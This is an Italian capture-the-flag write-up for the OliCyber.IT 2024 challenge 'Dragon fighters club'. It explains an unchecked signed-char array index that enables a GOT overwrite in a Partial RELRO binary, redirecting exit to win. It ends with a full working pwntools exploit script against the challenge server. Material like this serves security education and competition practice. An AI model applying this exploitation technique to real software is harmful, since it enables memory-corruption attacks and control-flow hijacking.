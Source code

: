 # OliCyber.IT 2024 - Finale Nazionale

## [binary] Dragon fighters club (7 risoluzioni)

Sconfiggi tutti i draghi per entrare nel nostro club esclusivo! La gente dice che non è fattibile... Io dico che puoi trovare un modo :P

`nc dragonfightersclub.challs.olicyber.it 38303`

Author: Giulia Martino <@Giulia>

## Panoramica

La challenge è un binario che permette di combattere contro dei draghi. Sia tu che i draghi avete dei punti vita; quando combatti un drago, puoi sconfiggere solo quelli con meno punti vita dei tuoi. Ogni volta che sconfiggi un drago, i tuoi punti vita aumentano dei punti vita del drago e puoi infliggere un numero arbitrario di punti danno.

Quando riesci a portare tutti i punti vita dei draghi a zero, la funzione `win` viene chiamata, e la flag viene stampata in output. Uno dei draghi ha un numero molto alto di punti vita, quindi è praticamente impossibile vincere giocando solo in modo legittimo.

Agli utenti è fornito il binario della challenge insieme a un file `docker-compose.yml` utile per testare la challenge in locale.

## Vulnerabilità

I draghi sono implementati con una semplice struttura C. Dal codice sorgente:

```c
struct dragon {
    char *name;
    unsigned long hp;
};

struct dragon dragons[10] = {
    {.name = "Fire Dragon", .hp = 0x100},
    {.name = "Ice Dragon", .hp = 0x200},
    {.name = "Earth Dragon", .hp = 0x300},
    {.name = "Wind Dragon", .hp = 0x500},
    {.name = "Water Dragon", .hp = 0x1a00},
    {.name = "Electric Dragon", .hp = 0x3000},
    {.name = "Metal Dragon", .hp = 0x4500},
    {.name = "Dark Dragon", .hp = 0xa000},
    {.name = "Light Dragon", .hp = 0x14000},
    {.name = "Poison Dragon", .hp = 0x7fffffffffffffff},
};
```

La funzione `fight` ci permette di selezionare uno dei draghi a disposizione e combatterlo. Il codice parsa un signed char (`hhd`) da stdin usando `scanf` e poi lo usa come indice per l'array `dragons`.

```c
    if (scanf("%hhd", &choice) != 1)
            die("Invalid choice");
        
        dragon = &dragons[choice];
```

Il problema è che non viene effettuato alcun controllo sulla variabile `choice`, che quindi può essere utilizzata per accedere out of bounds all'array `dragons`.

## Soluzione

Il controllo mancante ci permette di utilizzare qualsiasi indice vogliamo, purché possa essere contenuto in un `signed char`. Selezionando un indice out of bounds, il programma interpreterà la memoria trovata a quell'indice come se fosse una `struct dragon`, quindi:
- i primi 8 byte trovati saranno interpretati come un puntatore al nome del drago.
- i secondi 8 byte trovati saranno interpretati come i punti vita del drago.

Considerando che quando si sconfigge un drago possiamo scegliere arbitrariamente un numero di punti danno, se riusciamo ad allineare correttamente un drago, possiamo modificare arbitrariamente gli 8 byte corrispondenti ai suoi punti vita sottraendogli il danno arbitrario.

L'array `dragons` è memorizzato nella sezione `.bss`, che si trova in memoria poco dopo la sezione GOT. La GOT memorizza l'indirizzo in memoria delle funzioni importate dalle librerie esterne, ad esempio `libc`. Il binario è `Partial RELRO`, il che significa che la sua GOT è scrivibile e gli indirizzi delle funzioni vengono risolti la prima volta che le funzioni stesse vengono chiamate. Quando un programma chiama una funzione esterna per la prima volta, la sua entry in GOT punta all'interno dell'eseguibile stesso, a uno stub di codice dedicato necessario per calcolare l'indirizzo reale della funzione nella libreria esterna. Una volta che il suo indirizzo nella libreria esterna è calcolato (risolto), viene scritto nuovamente in GOT.

```
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

Se allineiamo una `struct dragon` sulla GOT, possiamo poi utilizzare i punti danno per modificare una delle sue voci in modo che punti a una posizione diversa, possibilmente alla funzione `win`. La prossima volta che quella funzione verrà chiamata, il programma chiamerà effettivamente la funzione `win`.

Tra tutte le possibili voci della GOT, quella di `exit` è molto conveniente: l'indirizzo della funzione non è ancora stato risolto, quindi la sua voce punta all'interno del binario stesso e il suo valore è relativamente vicino all'indirizzo di `win`. Utilizzando un valore negativo per l'indice del drago (specificamente -5) possiamo allineare un drago sulla GOT in modo che gli 8 byte corrispondenti ai punti vita del drago siano allineati con l'entrata di `exit` in GOT.

Se proviamo direttamente a combatterlo, ci accorgiamo che non possiamo sconfiggerlo, perché abbiamo bisogno che i nostri punti vita siano superiori all'indirizzo di `exit` in GOT. Possiamo iniziare il nostro exploit combattendo più volte gli altri draghi, in modo da aumentare i nostri punti vita a una quantità sufficiente per sconfiggere il drago in `exit` in GOT.

Dobbiamo quindi calcolare la distanza tra l'indirizzo non ancora risolto dell'entry di `exit` e la funzione `win`. Sconfiggendo il drago e impostando il valore di danno arbitrario a questa distanza, modificheremo l'entrata di `exit` in modo che punti a `win`. E poi possiamo semplicemente uscire dal programma.

## Exploit

```python
#!/usr/bin/env python3

import logging
import os
from pwn import *

logging.disable()

filename = os.path.join(os.path.dirname(__file__), "dragon_fighters_club")
exe = context.binary = ELF(args.EXE or filename, checksec=False)
context.terminal = ['tmux', 'splitw', '-h', '-F' '#{pane_pid}', '-P']

HOST = os.environ.get("HOST", "dragonfightersclub.challs.olicyber.it")
PORT = int(os.environ.get("PORT", 38303))
POW_BYPASS = '736ce3308158c9bdf0eb0d4e2701c93c'

def start(argv=[], *a, **kw):
    if args.LOCAL:
        return process([exe.path] + argv, *a, **kw)
    if args.GDB:
        return gdb.debug([exe.path] + argv, gdbscript=gdbscript, *a, **kw)
    else:
        return remote(HOST, PORT)

gdbscript = '''
'''.format(**locals())

# ==========================
# Arch:     amd64-64-little
# RELRO:    Partial RELRO
# Stack:    Canary found
# NX:       NX enabled
# PIE:      No PIE (0x400000)

io = start()
io.sendlineafter(b"Result:", f"99:{POW_BYPASS}".encode())

def you():
    io.sendlineafter(b"> ", b"1")
    res = io.recvline().strip().decode()
    return res

def dragons():
    io.sendlineafter(b"> ", b"2")
    res = b''.join(io.recvlines(10, keepends=True)).strip().decode()
    return res

def fight(i, damage):
    io.sendlineafter(b"> ", b"3");
    io.sendlineafter(b"> ", f"{i}".encode())
    res = io.recvline()
    if b"die?" in res:
        print(f"Cant fight {i} :(")
        return
    io.sendline(f"{damage}".encode())

def check_win():
    io.sendlineafter(b"> ", b"4")

def exit():
    io.sendlineafter(b"> ", b"5")

# Just getting enough points to beat exit's GOT dragon
for i in range(8):
    fight(i, 100)
for _ in range(75):
    fight(8, 1)

WIN = exe.symbols["win"]
EXIT_GOT = 0x04010b0

fight(-5, EXIT_GOT - WIN) # Overwrite exit's GOT with win
exit()

if args.GDB:
    io.interactive()
else:
    res = io.recvuntil(b"flag{").strip()
    print('flag{' + io.recvuntil(b'}').strip().decode())
```
